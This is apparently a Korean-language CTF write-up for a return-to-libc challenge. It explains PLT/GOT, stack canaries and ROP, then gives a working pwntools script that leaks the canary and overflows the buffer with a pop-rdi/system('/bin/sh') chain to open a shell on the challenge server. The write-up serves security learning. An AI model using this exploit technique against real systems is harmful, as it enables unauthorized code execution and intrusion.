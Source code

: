 @PLT

ELF 바이너리에서 외부 바이너리 함수(system, puts, printf 등)은 실행파일 안에 실제 코드가 없고, glibc 같은 외부에서 제공된다.

근데 어디 있는지는 런타임에만 알 수 있어서 아래와 같이 동작한다.

1. PLT : 실행파일에 고정된 점프 테이블
2. GOT (Global Offset Table) : 실제 함수 주소를 담는 테이블 (런타임에 채워짐)

```bash
main() → call system@plt
```

→ PLT → GOT (비어있음)
→ dynamic linker가 찾음
→ GOT에 진짜 system 주소 넣음
→ PLT → GOT (진짜 주소 있음)
→ system 함수 실행

![Image](/assets/img/rtl/image1.png)

![Image](/assets/img/rtl/image2.png)

![Image](/assets/img/rtl/image3.png)

카나리는 보통 스택 보호(stack canary) 기능의 일부인데, 이 값은 프로세스가 실행될 때마다 새로 생성된다. 즉, 카나리는 프로세스 단위로 고정된다.

해당 프로그램은 한 세션에서 두 번의 read를 사용하기 때문에 첫 read에서 canary의 값을 얻어내고, 두번째 read에서 해당 canary 값을 포함한 payload를 전송하여 return address를 system(/bin/sh) 주소로 변경시키면 되는 문제로 추정된다.

리턴주소를 조작해서 libc에 있는 함수(system 등)를 호출하는 기술을 RTL(Return to Libc)라고하는데, 

32bit 환경과 64bit 환경에서의 RTL은 차이가 있다.

32bit에서는 함수 인자를 스택에 push해서 전달한다.

ex)

```bash
payload = b"A"*offset
payload += p32(system_addr)
payload += p32(exit_addr)         # system 끝나고 exit 호출할 주소
payload += p32(binsh_addr)        # system의 인자
```

64bit에서는 인자를 스택이 아닌 레지스터로 전달한다.

ex)

```bash
payload = b"A"*offset
payload += p64(pop_rdi_ret)
payload += p64(binsh_addr)
payload += p64(system_addr)
```

단순히 RET를 덮는 것 만으로는 안 되고, system()을 호출하기 전에 RDI에 우리가 원하는 값을 직접 넣어줘야 한다.

그래서 필요한 게 바로 ROP 가젯(pop rdi; ret)이다.

해당 문제는 64bit환경이다.

따라서 우리가 알아내야 할 정보는 system() 주소, binsh 문자열 주소, ROP 가젯, canary 이다.

1. system()

![Image](/assets/img/rtl/image4.png)

system 함수의 PLT , GOT 주소는 위와 같이 찾을 수 있다.

우리는 PLT 주소를 사용할 것이기 때문에 필요한 값은 “0x4005d0”이다.

1. binsh

![Image](/assets/img/rtl/image5.png)

pwndbg의 search 명령어를 사용하면 binsh의 주소가 3개 뜨는데, system 함수의 경우 인자로 문자열의 주소를 필요로 하기 때문에 우리에게 필요한 주소는 “0x400874”가 된다.

1. canary

![Image](/assets/img/rtl/image6.png)

buf부터 rbp까지의 거리: 0x40

buf부터 canary까지의 거리: 0x40-0x08 = 0x38

1. ROP gadget

```bash
ROPgadget --binary ./rtl | grep "pop rdi"
```

![Image](/assets/img/rtl/image7.png)

ROP 가젯 : 0x0000000000400853

그리고 여기에 추가적으로,

현재 버퍼를 오버플로우 시켜서 → 카나리 덮고 → SFP 덮고 → 리턴주소를 덮는 과정에서 우리가 덮는 리턴 주소 때문에 스택 포인터(rsp)가 8바이트 밀리는 현상이 발생할 수 있다.

그런데 system()이나 puts() 같은 함수들은 내부적으로 SSE 명령어 등 16바이트 정렬이 필요한 명령어를 쓰는 경우가 있다.

따라서 system() 호출 직전에 ret 가젯을 추가해서 현재 깨져있는 rsp를 +8 올려서 정렬을 맞춰줘야 한다.

1. ret

```bash
ROPgadget --binary ./rtl | grep "ret$"
```

![Image](/assets/img/rtl/image8.png)

```bash
from pwn import *

p = remote('host3.dreamhack.games', 15020)

pop_rdi_ret = 0x400853
bin_sh_addr = 0x400874
system_plt = 0x4005d0
ret = 0x400596

payload = b'A'*0x39
p.sendafter(b'Buf: ',payload)
p.recvuntil(payload)

canary = u64(p.recv(7).rjust(8, b"\x00"))
print('canary', hex(canary))

payload = b'A'*0x38
payload += p64(canary)
payload += b'B'*8
payload += p64(pop_rdi_ret)
payload += p64(bin_sh_addr)
payload += p64(ret)
payload += p64(system_plt)

p.sendafter(b'Buf: ', payload)
p.interactive()
```

![Image](/assets/img/rtl/image9.png)